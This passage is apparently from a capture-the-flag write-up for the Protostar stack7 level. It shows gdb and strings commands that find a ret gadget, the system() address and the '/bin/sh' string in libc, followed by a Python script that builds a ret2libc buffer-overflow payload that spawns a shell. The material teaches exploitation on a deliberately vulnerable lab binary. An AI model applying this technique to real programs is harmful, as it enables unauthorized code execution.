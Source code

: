 To locate the **ret** instruction and the address of **system()**, I use the following `gdb` commands:

``` shell
(gdb) disassemble getpath
...
0x08048544 <getpath+128>:       ret
End of assembler dump.
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

Next, I need to determine the base address of **libc** and find the address of the ***"/bin/sh"*** string using the `strings` command:

``` shell
(gdb) info proc map
process 2454
cmdline = '/opt/protostar/bin/stack7'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fde000 0xb7fe2000     0x4000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) quit
....
user@protostar:~$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```

So, the address of **"/bin/sh"** is 0xb7e97000 + 0x11f3bf.

Here is my script:

``` python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret = struct.pack("I", 0x08048544)
system = struct.pack("I", 0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I", 0xb7e97000 + 0x11f3bf)

print padding + ret + system + return_after_system + bin_sh
```
